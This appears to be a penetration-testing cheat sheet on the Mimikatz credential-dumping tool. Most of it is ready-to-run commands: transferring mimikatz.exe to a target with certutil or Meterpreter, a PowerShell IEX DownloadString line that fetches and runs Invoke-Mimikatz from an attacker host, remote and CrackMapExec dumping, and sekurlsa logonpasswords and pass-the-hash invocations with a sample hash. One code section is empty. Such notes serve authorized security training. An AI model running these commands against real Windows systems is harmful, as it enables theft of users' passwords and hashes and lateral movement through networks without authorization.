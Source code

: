 # Mimikatz

**Mimikatz** is a Windows post-exploitation tool. It allows fot the extraction of clear-text passwords, hashes and kerberos tickets from memory.

Allow us to perform: Credential Dumping, Pass-the-Hash, Over-Pass-the-Hash, Pass-the-Ticket, Silver Ticket, and Golden Ticket.



**Required**:

* **pwd the target** with shell/meterpreter
* login with a **high privilege account**



## Transfer to target



<pre class="language-bash" data-title="Metasploit module"><code class="lang-bash"># load the kiwi module
load kiwi

# get help menu
?

# retrieve all credentials with kiwi
creds_all

<strong># dump from SAM db
</strong>lsa_dump_sam
</code></pre>



{% code title="PS shell" %}
```powershell
# create a 'Temp' dir on Target Machine
mkdir Temp

# cp mimikatz file and host server in attack machine on port 80
cp /usr/share/windows-resources/mimikatz/x64/mimikatz.exe .
python3 -m http.server 80

# download .exe from attack machine
certutil -urlcache -f http://IP:80/mimikatz.exe mimikatz.exe
```
{% endcode %}



{% code title="meterpreter & mimikatz.exe" %}
```powershell
# create a 'Temp' dir
mkdir Temp

# upload .exe from meterpreter to target machine
upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe

# execute the program via shell in the target machine
.\mimikatz.exe

# check required privileges
privilege::debug

# lsa dump from SAM db
lsadump::sam

# show clear-text passwords
sekurlsa::logonpasswords
```
{% endcode %}



## MimiKatz into PowerShell RevShell

Stablished a connection with Hoaxshell

[#hoaxshell](../../pt/executive-pt/post-exploitation/shells.md#hoaxshell "mention")

{% code overflow="wrap" %}
```bash
wget https://raw.githubusercontent.com/PowershellMafia/Powersploit/refs/heads/master/Exfiltration/Invoke-Mimikatz.ps1
```
{% endcode %}

Host a webserver with the module Invoke-Mimikatz.ps1

```
python3 -m http.server 80
```

Run this command to import the mimikatz module from attacker webserver and use it.

{% code overflow="wrap" %}
```powershell
IEX(New-Object Net.WebClient).DownloadString('http://<ATT_IP>:<ATT_PORT>/Invoke-Mimikatz.ps1');Invoke-Mimikatz -Command '"PRIVILEGE::Debug"'
```
{% endcode %}

Execute the dump with imported module.

```powershell
Invoke-Mimikatz -DumpCreds -Verbose
```

## Mimikatz on Remote Windows Machine

The technique below needs enabled WMI session (`New-PSSession`)

```powershell
powershell -ep bypass
. .\Invoke-Mimikatz.ps1

Invoke-mimikatz -ComputerName $HOSTNAME -Verbose
```

## Mimikatz with CrackMapExec

```bash
crackmapexec smb <IP> -u USER -p PASSWORD -M mimikatz
```



## Credentials Dump

### NTLM

```powershell
```



## Methods

{% embed url="https://tools.thehacker.recipes/mimikatz" %}

### sekurlsa

The **sekurlsa** module in Mimikatz, leverages a number of different techniques to extract authentication information from _**LSASS**_ memory including parsing memory structures and using Windows APIs.

#### "logonpasswords"&#x20;

The "logonpasswords" function of this module specifically extracts login session data such as saved password hashes and cached credentials. This can include the current user's logon information, as well as information for other users who have logged onto the same machine.

Example:

```powershell
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit
```

#### "pth"

The "sekurlsa::pth" command in mimikatz is a features that facilitates "Pass-the-Hash" attacks. This technique allows us to authenticate to a remote system by using a captured NTLM hash of a user's password, without the need for the actual password. To execute this command, we must provide only the following parameters:

* **/user**: (the username)
* **/domain**: (the domain)
* **/ntlm**: (the NTLM hash of the user's password)

{% hint style="info" %}
Note that Windows passwords are not only limited to the NTLM protocol, but may also use popular block encryption algorithms like AES-128 and AES-256 for password storage. In such cases, adversaries would need to use the _**/aes128**_: or _**/aes256**_: parameters instead of _**/ntlm**_:
{% endhint %}

Example:

{% code overflow="wrap" %}
```powershell
.\mimikatz.exe "sekurlsa::pth /user:Alice /domain:domain.com /ntlm:a0c8746a6efc7782c7c19c55185145be"
```
{% endcode %}



### privilege

Administrators typically have SeDebugPrivilege, enabling them to debug programs. This privilege can be restricted to prevent unauthorized memory dumps, a common technique used by attackers to extract credentials from memory. However, even with this privilege removed, the TrustedInstaller account can still perform memory dumps using a customized service configuration

#### "debug"

Before run the "sekurlsa::logonpasswords" function, we need to run the "privilege::debug" command.

By default, LSASS runs with high integrity and is protected from being debugged by unauthorized processes. However, by enabling the "_**debugger privilege**_" function, we can bypass this protection and access LSASS memory to extract the logon session data.

















